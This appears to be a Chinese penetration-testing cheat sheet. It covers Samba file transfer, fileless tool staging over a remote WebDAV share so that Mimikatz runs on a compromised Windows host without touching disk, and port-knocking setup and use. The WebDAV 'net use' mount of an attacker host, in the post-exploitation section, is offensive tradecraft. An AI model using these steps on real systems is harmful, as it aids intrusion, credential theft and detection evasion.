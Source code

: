 # 渗透技巧

&nbsp;

## 文件互传

### 【使用samba文件互传】

* **windows上传linux**
  * （1）配置linux的samba服务
    首先配置linux的linux服务，修改/etc/samba/smb.conf文件
    ```
    [share]
    path=/tmp/share
    browseable=yes
    available=yes
    public=yes
    writable=yes
    ```
    path：要共享的目录路径
    browseable：是否可以浏览
    available：（重要）是否允许
    public：是否匿名访问
    writable：是否可写
    
  * （2）开启samba服务
    ```bash
    service smdb start
    ```
    
  * （3）windows文件上传到linux的samba服务器中
    ```powershell
    copy c:\abc.txt \\192.168.2.20\share\abc.txt
    ```
* **linux上传windows**

    
  
### 【webdav无文件落地目标系统】

* **window读取linux文件**
  * （1）在win或者linux系统上搭建webdav服务环境，作为工具上传基址
    ```bash
    pip install PyWebDAV //win系统
    apt-get install python-webdav //linux系统
    davserver -D /工具路径 -n -H 10.10.10.10 //启动webdav
    ```
  * （2）当我们已经拥有命令执行权限时，需要将文件在目标机器上执行，由于 Windows 下载文件比较麻烦，故此采用 Webdav
    ```bash
    net use Z: http://10.10.10.10:8008 //挂载远程webdav
    net use Z: /DELETE //终止挂载
    ```
  * （3）当我们运行 Mimikatz 时，会从网络加载这个文件，而不会落地到目标机器


&nbsp;

## 端口碰撞技术

### 【什么是端口碰撞】

* 端口敲门是一种通过在一组预先指定的关闭端口上产生连接请求，从外部打开防火墙上的端口的方法。一旦收到正确地连接请求序列，防火墙规则就会被动态修改，以允许发送连接请求的主机通过特定端口进行连接。
* 现有的一些安全技术也可以达到类似的攻击面隐藏效果，如Port-knocking、SPA及SDP解决方案

### 【端口碰撞使用】

* **配置端口碰撞服务knockd**
  ```bash
  cat /etc/knockd.conf
[options]
    UseSyslog
[openSSH]
    sequence    = 7000,8000,9000
    seq_timeout = 5
    command     = /sbin/iptables -A INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
    tcpflags    = syn
[closeSSH]
    sequence    = 9000,8000,7000
    seq_timeout = 5
    command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
    tcpflags    = syn
  ```
  
* **进行端口碰撞**
  * 使用telnet
    ```bash
    #open ssh port
    telnet 192.168.1.100 7000
    telnet 192.168.1.100 8000
    telnet 192.168.1.100 9000
    
    #close ssh port
    telnet 192.168.1.100 9000
    telnet 192.168.1.100 8000
    telnet 192.168.1.100 7000
    ```
    
  * 使用knock程序
    ```bash
    #open ssh port
    knock 192.168.1.100 7000 8000 9000
    
    #close ssh port
    knock 192.168.1.100 9000 8000 7000
    ```
    
  * 使用nc
    ```bash
    nc -z 192.168.1.100 7000 8000 9000
    ```
    
  * 使用nmap
    ```bash
    for i in 7000 8000 9000;do nmap -Pn --host timeout 201 --max-retries 0 -p $i 192.168.1.100;done
    ```
    
